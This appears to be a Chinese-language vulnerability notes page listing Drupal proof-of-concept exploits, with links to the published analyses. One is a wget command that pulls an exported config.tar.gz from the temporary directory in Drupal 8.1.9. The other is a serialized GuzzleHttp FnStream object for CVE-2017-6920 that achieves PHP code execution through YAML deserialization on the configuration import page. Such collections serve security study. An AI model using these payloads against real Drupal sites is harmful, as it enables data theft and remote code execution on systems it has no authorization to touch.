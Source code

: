 ## 8.1.9 

### config.tar.gz 下载漏洞

参考链接

* [Drupal 8 配置文件下载漏洞分析](http://blog.knownsec.com/2016/09/drupal-8-config-download/)

Poc

```
# 后台导出配置后，执行这个
wget 'http://127.0.0.1/system/temporary/?file=config.tar.gz' -O config.tar.gz
```

## 8.3.3

### yaml 反序列化漏洞

参考链接

* [CVE-2017-6920:Drupal远程代码执行漏洞分析及POC构造](https://paper.seebug.org/334/)

影响版本

* <= 8.3.3

Poc

```
打开 /admin/config/development/configuration/single/import

导入 Single configuration

!php/object "O:24:\"GuzzleHttp\\Psr7\\FnStream\":2:{s:33:\"\0GuzzleHttp\\Psr7\\FnStream\0methods\";a:1:{s:5:\"close\";s:7:\"phpinfo\";}s:9:\"_fn_close\";s:7:\"phpinfo\";}"
```